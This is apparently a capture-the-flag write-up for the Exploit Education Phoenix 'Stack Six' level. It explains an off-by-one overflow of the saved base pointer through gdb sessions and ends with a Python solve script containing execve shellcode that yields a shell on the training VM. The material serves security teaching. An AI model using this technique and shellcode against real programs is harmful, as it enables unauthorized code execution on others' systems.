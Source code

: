 ```yaml
---
title: " Exploit Education | Phoenix | Stack Six"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

This level exploits the 1‑byte buffer overflow, to learn more about it read the references at the end.

This code reads the environment variable **ExploitEducation** and passes it to **greet** function in the variable **who**.

Then it copies **GREET** message to the buffer which in this case is "Welcome, I am pleased to meet you ".

After that it check for input size (maximum size is 127).

Now comes the bug, it copies the input to buffer + 34 (GREET length) so if our input size is 127 which is the maximum we could overflow the buffer and write 34 bytes past it.

So in total we are allowed to write 34 + 127 = 161 bytes, is it enough to overwrite the return address and redirect code execution ???

Unfortunately the answer it no, we can only overwrite the lowest byte of the saved **RBP**.

> #### Quick tips:
>
> - You can add these lines to **".gdbinit"** file to adjust gdb addresses to be more realistic.
>
>
> ```
> unset env LINES
> unset env COLUMNS
> set env _ /opt/phoenix/amd64/stack-six
> ```
>
> 
>
> - Keep the length of your exploit fixed every time to avoid shifting memory addresses (and to avoid the headache).



```
$ export ExploitEducation=$(python -c "print 'A'*161")			# Fill ExploitEducation env variable with 127 A's

$ gdb -q /opt/phoenix/amd64/stack-six 
Reading symbols from /opt/phoenix/amd64/stack-six...(no debugging symbols found)...done.

gef➤  disassemble greet 
Dump of assembler code for function greet:
.....
   0x000000000040077a <+125>:	mov    rdi,rcx
   0x000000000040077d <+128>:	call   0x400550 <strncpy@plt>
   0x0000000000400782 <+133>:	lea    rax,[rbp-0xa0]			# address of who
   0x0000000000400789 <+140>:	mov    rdi,rax
   0x000000000040078c <+143>:	call   0x400560 <strdup@plt>
.....

gef➤  b *0x0000000000400782
Breakpoint 1 at 0x400782

gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Breakpoint 1, 0x0000000000400782 in greet ()

gef➤  info registers rbp
rbp            0x7fffffffe590      0x7fffffffe590

gef➤   x/22xg $rbp-0xa0
0x7fffffffe510:	0x2c656d6f636c6557	0x6c70206d61204920
0x7fffffffe520:	0x6f74206465736165	0x6f79207465656d20
0x7fffffffe530:	0x4141414141412075	0x4141414141414141
0x7fffffffe540:	0x4141414141414141	0x4141414141414141
0x7fffffffe550:	0x4141414141414141	0x4141414141414141
0x7fffffffe560:	0x4141414141414141	0x4141414141414141
0x7fffffffe570:	0x4141414141414141	0x4141414141414141
0x7fffffffe580:	0x4141414141414141	0x4141414141414141
0x7fffffffe590:	0x4141414141414141	0x4141414141414141
0x7fffffffe5a0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5b0:	0x00007fffffffe541	0x00000000004007e9
```

As you can see we were able to only overwrite the first byte of the saved **RBP** (remember that this is the base pointer of the calling function"main").

We know that this modified **RBP** will be used to restore **RSP** at the end of **main** function and then jump to the return address, so the idea of the exploit is modifying **RBP** to point to a an address where **RBP+8** (which will be the return address of main) points somewhere in the environment variable **ExploitEducation**.

We can get the address of **ExploitEducation** using many ways like dumping the stack until we find it (environment variables are at the end of the stack).

Here I used the command **grep** which is an alias for **search-pattern**.

```
gef➤  grep ExploitEducation=
[+] Searching 'ExploitEducation=' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffeeff - 0x7fffffffef36  →   "ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```

As you can see our input address starts at **0x7fffffffeeff**, but we need the start of the input to the real start is **0x7fffffffeeff + len("ExploitEducation=") = 0x7fffffffef10**.

So the return address must point somewhere inside **0x7fffffffef10** and **0x7fffffffef10+126**.

As we can only change the last byte of **RBP**, it's value can be between **0x7fffffffe501** and **0x7fffffffe5ff**, so let's put a breakpoint at the end of main and see if there is a good address we can jump to in this range.

```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x00000000004007e4 <+73>:	call   0x4006fd <greet>
   0x00000000004007e9 <+78>:	mov    rdi,rax
   0x00000000004007ec <+81>:	call   0x400530 <puts@plt>
   0x00000000004007f1 <+86>:	mov    eax,0x0
   0x00000000004007f6 <+91>:	leave

gef➤  b *0x00000000004007f6
Breakpoint 2 at 0x4007f6

gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Breakpoint 1, 0x00000000004007f6 in main ()

gef➤   x/32xg 0x7fffffffe500
0x7fffffffe500:	0x00007ffff7ffc948	0x00000000000000a6
0x7fffffffe510:	0x0000000000000001	0x00007ffff7db6d0f
0x7fffffffe520:	0x00007ffff7ffc948	0x00000000000000a6
0x7fffffffe530:	0x00007fffffffe58f	0x0000000000000001
0x7fffffffe540:	0x4141414141414141	0x00007ffff7ffb300
0x7fffffffe550:	0x0000000000000000	0x0000000000600c00
0x7fffffffe560:	0x000000000040079b	0x0000000000000000
0x7fffffffe570:	0x0000000000000000	0x00007ffff7db6b1e
0x7fffffffe580:	0x00007ffff7ffb300	0x0a00000000000000
0x7fffffffe590:	0x00007ffff7ffb300	0x00007ffff7db9934
0x7fffffffe5a0:	0x4141414141414141	0x00007fffffffe541
0x7fffffffe5b0:	0x00007fffffffe648	0x00000000004007f1
0x7fffffffe5c0:	0x00007fffffffe638	0x00000001ffffe648
0x7fffffffe5d0:	0x000000000040079b	0x00007fffffffef10
0x7fffffffe5e0:	0x0000000000000001	0x00007ffff7d8fd62
0x7fffffffe5f0:	0x0000000000000000	0x00007fffffffe630
```

And viola!!!, we get **0x00007fffffffef10** at address **0x7fffffffe5d8** so we overwrite **RBP** to be **0x7fffffffe5d0** and that's it, the **leave** instruction will move RBP to RSP and pop the top value of the stack to RBP (which is at 0x7fffffffe5d0) then the **ret** will pop the next value to RIP (which is at 0x7fffffffe5d8).

So the whole idea was to overwrite **RBP** to point to an address where **RBP+8** is the address of our shellcode, so that at the end of the calling function the value of **RIP** will point to that address.

# Solution:

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90' * 20		# some NOP sled is always good :)
buff += shellcode
buff += 'A' * (126 - len(buff))
buff += '\xd0'

print(buff)
```

```
$ export ExploitEducation=$(python solve.py)
$ /opt/phoenix/amd64/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you 1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
$ whoami
phoenix-amd64-stack-six
```

Note: the 32bit version might have a slightly different solution, but the idea is still the same.

#### References:

[https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows](https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows)